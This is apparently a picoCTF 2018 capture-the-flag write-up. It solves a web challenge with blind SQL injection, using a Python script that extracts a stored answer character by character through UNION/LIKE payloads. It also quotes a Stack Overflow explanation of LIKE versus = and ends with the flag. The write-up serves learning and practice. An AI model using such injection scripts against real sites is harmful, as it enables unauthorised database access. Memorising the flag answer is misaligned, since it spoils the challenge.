




# Problem
There is a website running at [http://2018shell1.picoctf.com:15987](http://2018shell1.picoctf.com:15987). Try to see if you can answer its question.

## Hints:

## Solution:
Les take a look:





I think that when the query return some row, we get "You are so close.". We need some [blind SQL injections](https://www.owasp.org/index.php/Blind_SQL_Injection).

We can use this code:
```python
#!/usr/bin/env python

from pwn import *
import requests
import string
import sys

url = 'http://2018shell1.picoctf.com:15987'

ans = ''

while True:
  for c in string.ascii_uppercase + string.ascii_lowercase + string.digits:
    if c == '%':
      continue

    if c != '\'':
      params = {'answer': "1' union select * from answers where answer like '{}{}%' COLLATE BINARY; -- ".format(ans, c), 'debug': '0'}
    else:
      params = {'answer': "1' union select * from answers where answer like '{}{}%' CPLLATE BINARY; -- ".format(ans, "''"), 'debug': '0'}

    log.info('Make POST request')
    r = requests.post('{}/answer2.php'.format(url), data=params)

    print r.text

    if 'Wrong' in r.text:
      continue

    if 'You are so close' in r.text:  
      ans += c
      log.info('Close answer: {}'.format(ans))

      break

    if 'Perfect' in r.text:
      log.info('Perfect answer: {}'.format(ans))

      sys.exit(1)
  else:
    log.info('Final Answer: {}'.format(ans))

    break
```

After some time, we get: ```41ANDSIXSIXTHS```.




Weird... After some googling, I got [this](https://stackoverflow.com/questions/543580/equals-vs-like):
```
Different Operators
LIKE and = are different operators. Most answers here focus on the wildcard support, which is not the only difference between these operators!

= is a comparison operator that operates on numbers and strings. When comparing strings, the comparison operator compares whole strings.

LIKE is a string operator that compares character by character.

To complicate matters, both operators use a collation which can have important effects on the result of the comparison.

Motivating Example
Let's first identify an example where these operators produce obviously different results. Allow me to quote from the MySQL manual:

Per the SQL standard, LIKE performs matching on a per-character basis, thus it can produce results different from the = comparison operator:

mysql> SELECT 'ä' LIKE 'ae' COLLATE latin1_german2_ci;
+-----------------------------------------+
| 'ä' LIKE 'ae' COLLATE latin1_german2_ci |
+-----------------------------------------+
|                                       0 |
+-----------------------------------------+
mysql> SELECT 'ä' = 'ae' COLLATE latin1_german2_ci;
+--------------------------------------+
| 'ä' = 'ae' COLLATE latin1_german2_ci |
+--------------------------------------+
|                                    1 |
+--------------------------------------+
Please note that this page of the MySQL manual is called String Comparison Functions, and = is not discussed, which implies that = is not strictly a string comparison function.

How Does = Work?
The SQL Standard § 8.2 describes how = compares strings:

The comparison of two character strings is determined as follows:

a) If the length in characters of X is not equal to the length in characters of Y, then the shorter string is effectively replaced, for the purposes of comparison, with a copy of itself that has been extended to the length of the longer string by concatenation on the right of one or more pad characters, where the pad character is chosen based on CS. If CS has the NO PAD attribute, then the pad character is an implementation-dependent character different from any character in the character set of X and Y that collates less than any string under CS. Otherwise, the pad character is a .

b) The result of the comparison of X and Y is given by the collating sequence CS.

c) Depending on the collating sequence, two strings may compare as equal even if they are of different lengths or contain different sequences of characters. When the operations MAX, MIN, DISTINCT, references to a grouping column, and the UNION, EXCEPT, and INTERSECT operators refer to character strings, the specific value selected by these operations from a set of such equal values is implementation-dependent.

(Emphasis added.)

What does this mean? It means that when comparing strings, the = operator is just a thin wrapper around the current collation. A collation is a library that has various rules for comparing strings. Here's an example of a binary collation from MySQL:

static int my_strnncoll_binary(const CHARSET_INFO *cs __attribute__((unused)),
                               const uchar *s, size_t slen,
                               const uchar *t, size_t tlen,
                               my_bool t_is_prefix)
{
  size_t len= MY_MIN(slen,tlen);
  int cmp= memcmp(s,t,len);
  return cmp ? cmp : (int)((t_is_prefix ? len : slen) - tlen);
}
This particular collation happens to compare byte-by-byte (which is why it's called "binary" — it doesn't give any special meaning to strings). Other collations may provide more advanced comparisons.

For example, here is a UTF-8 collation that supports case-insensitive comparisons. The code is too long to paste here, but go to that link and read the body of my_strnncollsp_utf8mb4(). This collation can process multiple bytes at a time and it can apply various transforms (such as case insensitive comparison). The = operator is completely abstracted from the vagaries of the collation.

How Does LIKE Work?
The SQL Standard § 8.5 describes how LIKE compares strings:

The <predicate>

M LIKE P

is true if there exists a partitioning of M into substrings such that:

i) A substring of M is a sequence of 0 or more contiguous <character representation>s of M and each <character representation> of M is part of exactly one substring.

ii) If the i-th substring specifier of P is an arbitrary character specifier, the i-th substring of M is any single <character representation>.

iii) If the i-th substring specifier of P is an arbitrary string specifier, then the i-th substring of M is any sequence of 0 or more <character representation>s.

iv) If the i-th substring specifier of P is neither an arbitrary character specifier nor an arbitrary string specifier, then the i-th substring of M is equal to that substring specifier according to the collating sequence of the <like predicate>, without the appending of <space> characters to M, and has the same length as that substring specifier.

v) The number of substrings of M is equal to the number of substring specifiers of P.

(Emphasis added.)

This is pretty wordy, so let's break it down. Items ii and iii refer to the wildcards _ and %, respectively. If P does not contain any wildcards, then only item iv applies. This is the case of interest posed by the OP.

In this case, it compares each "substring" (individual characters) in M against each substring in P using the current collation.

Conclusions
The bottom line is that when comparing strings, = compares the entire string while LIKE compares one character at a time. Both comparisons use the current collation. This difference leads to different results in some cases, as evidenced in the first example in this post.

Which one should you use? Nobody can tell you that — you need to use the one that's correct for your use case. Don't prematurely optimize by switching comparison operators.
```

(Thanks you Mark E. Haase).

No idea why my "collate" didn't work, but I tried to capitalize manually:



Flag: picoCTF{qu3stions_ar3_h4rd_41da9e94}
